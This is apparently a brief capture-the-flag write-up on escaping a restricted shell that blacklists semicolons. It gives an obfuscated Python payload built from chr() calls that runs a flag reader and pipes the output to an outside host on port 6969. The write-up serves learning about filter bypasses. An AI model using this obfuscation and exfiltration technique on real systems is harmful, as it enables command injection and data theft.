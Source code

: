 # babyshock revenge

- updated version of babyshock with `;` blacklisted.
- Instead of semi-colon, we can redefine any of the whitelisted commands as a function.
- Final payload was like:
```
> ls () python3
> ls
> touch = eval(chr(0x5f)+chr(0x5f)+chr(0x69)+chr(0x6d)+chr(0x70)+chr(0x6f)+chr(0x72)+chr(0x74)+chr(0x5f)+chr(0x5f)+chr(0x28)+chr(0x22)+chr(0x6f)+chr(0x73)+chr(0x22)+chr(0x29)+chr(0x2e)+chr(0x73)+chr(0x79)+chr(0x73)+chr(0x74)+chr(0x65)+chr(0x6d)+chr(0x28)+chr(0x22)+chr(0x2f)+chr(0x72)+chr(0x65)+chr(0x61)+chr(0x64)+chr(0x66)+chr(0x6c)+chr(0x61)+chr(0x67)+chr(0x20)+chr(0x7c)+chr(0x6e)+chr(0x78)+chr(0x20)+chr(0x68)+chr(0x61)+chr(0x78)+chr(0x2e)+chr(0x70)+chr(0x65)+chr(0x72)+chr(0x66)+chr(0x65)+chr(0x63)+chr(0x74)+chr(0x2e)+chr(0x62)+chr(0x6c)+chr(0x75)+chr(0x65)+chr(0x20)+chr(0x36)+chr(0x39)+chr(0x36)+chr(0x39)+chr(0x22)+chr(0x29))
```

- Running `python3`, it apparently sends your next commands to an interactive python shell.
- The payload executes /readflag and pipes the output to our server.
